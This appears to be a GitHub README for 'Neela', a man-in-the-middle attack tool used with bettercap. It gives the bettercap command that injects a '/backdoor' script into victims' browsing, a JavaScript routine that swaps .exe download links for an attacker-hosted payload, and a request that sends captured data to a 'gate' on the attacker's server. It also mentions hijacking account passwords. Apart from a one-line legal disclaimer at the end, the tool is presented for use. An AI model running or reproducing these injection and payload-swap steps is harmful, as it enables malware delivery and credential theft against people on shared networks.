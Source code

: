 <p align="center">
<img  src ="https://s31.postimg.org/4s7r3ng0r/Neela_logo01_d.png" height="200" />
</p>
<br />

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* /exploit/routine

```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
